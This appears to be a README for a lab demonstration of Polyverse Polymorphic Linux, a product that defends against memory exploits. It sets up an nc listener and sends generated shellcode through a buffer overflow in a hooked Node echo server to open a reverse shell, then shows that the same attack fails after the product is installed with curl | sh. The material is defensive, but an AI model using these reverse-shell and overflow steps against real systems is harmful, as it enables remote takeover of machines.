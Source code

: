 # Demonstration: Polyverse Polymorphic Linux
## Set up for a Reverse Shell
### (1) Start nc listening on port 5555 (Session-1)
    nc -kl 5555
## Run Server with Readhook
### (2) Start the container with an interactive shell (Session-2)
    docker run -it --rm -p 8080:8080 polyverse/readhook-node-echo-server /bin/sh
### (2) We'll need curl and wget later
    apk update && apk add curl wget ca-certificates && update-ca-certificates
### (2) Run the echo-server with readhook in front of libc
    LD_PRELOAD="/tmp/fullhook.so /tmp/basehook.so" node /src/echo-server.js
## Generate Shell-Code and Perform Exploit
### (3) Generate shell-code for the exploit (Session-3)
    export shellCode=$(curl localhost:8080/xyzzxMAKELOADdocker.for.mac.localhost:5555)
### (3) Send shell-code to the OVERFLOW for a reverse shell
    curl localhost:8080/$shellCode
### (1) Check that the overflow resulted in a remote shell
    ls && whoami && exit
## Install Polyverse Polymorphic Linux
### (2) Add Polyverse Polymorphic Linux
    curl https://repo.polyverse.io/install.sh | sh -s vZ2v3Bo4Kbnwj9pECrLsoGDDo
### (2) Update packages with Polymorphic Linux packages
    sed -n -i '/repo.polyverse.io/p' /etc/apk/repositories && apk upgrade --update-cache --available
## Test Polyverse Polymorphic Linux
### (2) Re-run the echo-server with (only) basehook.so
    LD_PRELOAD=/tmp/basehook.so node /src/echo-server.js
### (3) Try the shellCode with Polymorphic Linux
    curl localhost:8080/$shellCode
### (1) Confirm that nobody phoned-home to the listener
### (2) Confirm that the server terminated abnormally
